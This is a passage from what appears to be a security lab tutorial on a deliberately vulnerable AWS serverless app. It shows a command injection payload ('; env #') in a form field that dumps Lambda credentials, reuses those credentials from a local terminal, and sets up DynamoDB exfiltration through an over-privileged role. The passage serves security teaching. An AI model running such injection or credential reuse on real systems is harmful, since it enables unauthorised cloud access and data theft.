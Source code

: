 Let's grab the data from the environment variables by running the `env` command - in the URL field of the form, type: `https://foobar; env #`

{Partial Values}
```
AWS_SESSION_TOKEN=XXXXXXXXXXXXX
TABLE_NAME={dynamo_table_name}
AWS_SECRET_ACCESS_KEY=XXXXXXXXXXXXX
BUCKET_NAME={bucket_name}
AWS_ACCESS_KEY_ID=XXXXXXXXXXXXX
```
First, by grabbing the 3 IAM tokens - `AWS_SESSION_TOKEN`, `AWS_SECRET_ACCESS_KEY` and `AWS_ACCESS_KEY_ID`, we can now assume the function's temporary execution role. For those of you who aren't familiar with the AWS IAM security model, this is an extremely granular and powerful security permissions model. Here's an excerpt from the AWS documentation on IAM roles:

```An IAM role is similar to a user, in that it is an AWS identity with permission policies that determine what the identity can and cannot do in AWS. However, instead of being uniquely associated with one person, a role is intended to be assumable by anyone who needs it. Also, a role does not have standard long-term credentials (password or access keys) associated with it. Instead, if a user assumes a role, temporary security credentials are created dynamically and provided to the user. You can use roles to delegate access to users, applications, or services that don't normally have access to your AWS resources.```

More information on AWS IAM and AWS Lambda can be found in the AWS [documentation](https://docs.aws.amazon.com/lambda/latest/dg/access-control-identity-based.html).

#### Assuming the Lambda Function's Role, In the Convenience of Your Own Terminal ####
Now, given that we have the tokens generated for the function by the AWS STS service, we can use the tokens to invoke AWS CLI commands from our local machine. In order to do that, get the values, and set these environment variables locally by running in a shell terminal:

```
export AWS_SECRET_ACCESS_KEY = "..."
export AWS_ACCESS_KEY_ID = "..."
export AWS_SESSION_TOKEN = "..."
```

Next, you can verify that you are indeed using the function's role, locally, by running: `aws sts get-caller-identity`.

This should return the following:
```
{
    "UserId": "xxxxxxxxx",
    "Account": "xxxxxxxxxx",
    "Arn": "arn:aws:sts::xxxxxxxxxxxx:assumed-role/aws-serverless-repository-serv-FunctionConvertRole-xxxxxxxx/aws-serverless-repository-serverle-FunctionConvert-xxxxxxxxxx"
}
```
It's clear that we are now running under the assumed role of the function. We will get back to using the AWS CLI later on.

### Lesson 4: Exploiting Over-Privileged IAM Roles ###
As can be seen in the code, the developer is inserting the client's IP address and the document URL value into the DynamoDB table, by using the `put()` method of `AWS.DynamoDB.DocumentClient`. In a secure system, the permissions granted to the function should be least-privileged and minimal, i.e. only `dynamodb:PutItem`. However, when the developer chose the CRUD DynamoDB policy provided by AWS SAM, he/she granted the function with the following permissions:
```
- dynamodb:GetItem
- dynamodb:DeleteItem
- dynamodb:PutItem
- dynamodb:Scan
- dynamodb:Query
- dynamodb:UpdateItem
- dynamodb:BatchWriteItem
- dynamodb:BatchGetItem
- dynamodb:DescribeTable
```
These permissions will now allow us to exploit the OS command injection weakness, to exfiltrate data from the DynamoDB table, by abusing the `dynamodb:Scan` permission:
```